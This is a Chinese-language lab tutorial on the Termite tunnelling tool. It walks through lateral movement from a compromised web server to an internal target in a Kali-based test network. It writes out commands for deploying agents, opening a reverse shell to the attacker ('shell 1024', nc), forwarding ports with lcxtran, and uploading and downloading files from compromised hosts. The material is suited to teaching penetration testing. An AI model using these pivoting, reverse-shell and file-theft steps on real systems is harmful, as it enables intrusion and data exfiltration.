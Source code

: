 

### 通过Termite进行隧道穿透
Termite是一款内网穿透工具，该工具比较小巧不到1MB大小，但功能较为强大，分为管理端admin和客户端agent。它支持多平台、在复杂内网环境下Termite渗透适用性更强，操作也极为简便，下述以它为案例进行隧道穿透。实验拓扑如图1-1所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683850028-763344bd-37cf-4d0d-a3ca-8b485d7f117d.png#)<br />图1-1通过Termite进行隧道穿透<br />假设我们获取到Web服务器的权限后，想要对靶机获取权限，此时可以使用Termite工具进行隧道穿透，利用Termite工具下载靶机的核心文件，具体环境如表1-1所示，下面进行演示。<br />表1-1 Termite进行隧道穿透实验环境

| 主机类型 | IP配置 |
| --- | --- |
| Kali攻击机 | 192.168.0.58 |
| Web服务器 | 192.168.0.25   192.168.52.11 |
| 靶机 | 192.68.52.12 |

#### 1.目标在公网
    1）首先上传agent客户端到Web服务器，执行agent.exe -l 8888 ，开启监听Web服务器8888端口，如图1-2所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683850417-d7bd2ae2-0e7c-4e94-8afd-269fe77541fb.png#)<br />图1-2 监听Web服务器8888端口<br />    2）我们在Kali攻击机使用admin连接Web服务器开启的监听端口，执行./admin_linux_x86_64 -c 192.168.0.25 -p 8888命令，成功连接Web服务器后，使用show参数查看当前页面下存活的节点，如图1-3所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683850700-cceeaa1b-a354-49fe-9f7e-ce2b9e918b45.png#)<br />图1-3反向连接过程
#### 2.目标在内网
    假设通过Web服务器获取到靶机的系统执行权限，由于靶机位处于内网，且它无法访问外网，可以根据下面步骤进行操作。<br />    1）首先在Web服务器上传agent工具来开启监听8888端口，执行agent_Win32.exe -l 8888命令，开启监听，如图1-4所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683851042-5a7c9167-3a69-499a-b9a2-bdb8c1b601cc.png#)<br />图1-4 监听本地端口<br />    2）Kali攻击机使用admin服务端，执行./admin_linux_x86_64 -c 192.168.0.25 -p 8888命令连接Web服务器开启监听的8888端口。如图1-5所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683851352-85ea30dd-ee24-4810-accc-3ed477d99c06.png#)<br />图1-5 连接Web服务器<br />3）通过上传agent客户端到靶机，在靶机执行agent_win32.exe -c 192.168.52.11 -p 8888命令。注意，192.168.52.11是Web服务器内网的网卡。如图1-6所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683851770-5ed88c84-d01b-444d-95fc-cbd4af915e4b.png#)<br />图1-6 连接另一个网卡<br />4）此时在kali主机使用show命令查看，这里可以看到与靶机搭建隧道成功，下方会显示一个节点，如图1-7所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683852082-e33e6aa3-3926-4191-a9a3-e1f193c35759.png#)<br />图1-7隧道搭建成功
#### 3.shell反弹
  1）利用Termite工具根据上述环境进行shell反弹实验，将Web服务器的Shell反弹到Kali攻击机的1024端口，执行shell 1024命令即可，如图1-8所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683852551-4d703b00-38a6-48c7-8f79-d267eb1f2508.png#)<br />图1-8 shell反弹到本地1024端口<br />    2）在kali工具机使用nc工具进行测试， 执行nc 127.0.0.1 1024命令，可以看到已经将Web服务器的shell反弹到攻击机，如图1-9所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683852938-d266e22a-16ac-4da3-bd0a-1da86effb846.png#)<br />图1-9 shell反弹成功
#### 4.端口转发
    1）利用Termite工具的lcxtran 参数进行端口转发操作，lcxtran参数使用方法即“lcxtran 本地端口 目标ip 目标端口”，使用goto命令先进入Web服务器节点，然后执行lcxtran 8080 192.168.0.25 80，此时可以将Web服务器的80端口，转发到kali攻击机的8080端口，如图1-10所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683853220-3df74595-1519-406d-9a31-9af8b7cf678f.png#)<br />图1-10端口转发<br />2）我们访问kali攻击机本地的8080端口，即可访问Web服务器的80端口服务，如图1-11所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683853596-6f117e00-8a2e-4204-ab04-c25ee3b85d0c.png#)<br />图1-11访问Web服务器
#### 5.上传下载文件
Termite工具也可以用于上传下载文件，admin包含upfile上传参数使用方法，使用方法也很简单，使用参数即“upfile 本地文件路径 目标路径”，downfile下载参数使用方法即“downfile 目标文件路径 本地存放路径”。<br />1）使用Kali攻击机上传file.txt文件到Web服务器，利用Termite工具的upfile参数，先使用goto 1命令进入节点，执行upfile /boot/1.txt  C:\1.txt 命令将目录下的1.txt文件上传到Web服务器的C盘下。如图1-12所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683853871-88e18cff-fae2-40d6-8991-fa69604f508b.png#)<br />图1-12下载文件<br />  2）在Web服务器使用命令行工具，进入C盘，dir查看当前目录，此时发现1.txt已经上传成功，如图1-13所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683854169-e8496973-0fbc-44bc-8f5c-03f3e2f446be.png#)<br />图1-13 C盘目录<br />3）当需要下载Web服务器的文件，使用Termite工具的downfile参数，执行“downfile C:\1.txt  /1.txt”命令，即可将C盘下的1.txt文件下载到Kali的根目录下，如图1-14所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683854440-ce616c4e-2599-41f5-a3a3-409d6ecaf6ab.png#)<br />图1-14下载到kali的根目录下<br />4）在根目录下使用ls命令显示下载的文件，下载成功如图1-15所示。<br />![](https://cdn.nlark.com/yuque/0/2023/png/1137595/1699683854697-ab3a9fa8-1de1-4791-b8e7-eceb1c61d096.png#)<br />图1-15 查看根目录下文件

